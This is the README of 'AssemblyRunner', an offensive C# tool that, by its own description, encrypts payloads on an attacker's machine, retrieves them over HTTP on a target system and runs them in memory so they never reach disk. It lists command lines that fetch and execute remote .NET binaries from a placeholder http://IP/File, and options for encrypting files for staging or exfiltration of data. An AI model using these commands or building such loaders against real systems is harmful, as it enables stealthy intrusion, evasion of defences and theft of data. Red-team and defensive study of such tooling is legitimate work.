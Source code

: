 # AssemblyRunner

C# Binary that is designed to encrypt, decrypt, as well as retreive over HTTP C# assemblies and execute in-memory on a target system.

Overall goal was to be able to encrypt payload on attacker system, transfer this binary, and then remotely retreive encrypted binary and execute in-memory on a target system.

If performed correctly, actual executed payload is never on-disk. 

Functionality

.Net Exe Run in-memory with Arguments:

--Run remote .net exe (remote exe is b64 no encryption)
AssemblyRunner.exe -net http://IP/File(b64) "Arguments"

--Local .net exe File decrypt and run
AssemblyRunner.exe -rlocal PASSWORD File_to_Decrypt_and_run "Arguments"

--Remote .net File decrypt and run
AssemblyRunner.exe -rdec PASSWORD http://IP/File "Arguments"


.Net Exe Run in-memory without Arguments:

--Run remote .net exe (remote exe is b64 no encryption)
AssemblyRunner.exe -netno http://IP/File(b64)

--Local .net exe File decrypt and run
AssemblyRunner.exe -rlocalno PASSWORD File_to_Decrypt_and_run

--Remote .net File decrypt and run
AssemblyRunner.exe -rdecno PASSWORD http://IP/File


File Encryption only:

--Encrypt Remote exe and download local, saved as encrypt_remote.txt
AssemblyRunner.exe -enc PASSWORD http://IP/File


--Encrypt Local File, used for prestaging or exfil of data, saved as encrypt_local.txt
AssemblyRunner.exe -file PASSWORD FILE/TO/ENC


--Local File Decrypt for exfil, not on target system, file saved as decrypted.txt
AssemblyRunner.exe -decfile PASSWORD File_to_Decrypt
